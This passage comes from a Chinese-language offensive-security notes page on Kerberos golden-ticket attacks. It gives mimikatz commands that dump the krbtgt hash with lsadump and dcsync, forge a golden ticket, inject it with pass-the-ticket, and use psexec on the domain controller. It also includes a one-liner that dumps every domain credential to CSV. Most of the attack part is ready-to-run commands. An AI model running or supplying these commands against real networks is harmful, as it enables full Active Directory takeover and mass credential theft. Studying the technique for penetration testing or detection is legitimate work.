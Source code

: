 ```
mimikatz "kerberos::golden /domain:ffffffff0x.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /service:LDAP /rc4:b0924e2e9d84ba0679c59f3730e91400 /user:krbtgt /ptt" "lsadump::dcsync /domain:ffffffff0x.com /all /csv" exit
```

---

### Golden_Tickets

在 AS_REQ & AS_REP 中，用户使用自身 hash 加密时间戳发送给 KDC，KDC 验证成功后返回用 krbtgt hash 加密的 TGT 票据。如果攻击者有 krbtgt 的 hash，就可以自己给自己签发任意用户的 tgt 票据。

先导出 krbtgt 的 hash
```bash
privilege::debug
lsadump::lsa /patch

# 或

lsadump::dcsync /domain:<域名> /user:krbtgt
```

使用 mimikatz 伪造的黄金票据，这里生成 Golden Ticket 不仅可以使用 aes256，也可用 krbtgt 的 NTLM hash
```bash
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi
```

利用 mimikatz 的 kerberos::ptt 将黄金票据 test.kiribi 注入到内存中：
```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```

> 导入的票据在20分钟内有效，过期之后再次导入就行

现在可以访问域控共享目录，还能在 DC 上远程执行 psexec

但是需要注意的是用 psexec 远程执行命令的时候，需要不能使用 IP 访问。使用 NetBios 的服务名访问才会走 Kerberos 认证，达到伪造凭据的攻击

**例子**

在数据库服务器上，利用域管理员的权限获得 krbtgt 的 NTLM 哈希 和 SID

使用 Mimikatz 抓取 Krbtgt 账号的密码
```bash
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt" > log.txt
```

![](../../../assets/img/Security/安全工具/mimikatz/3.png)
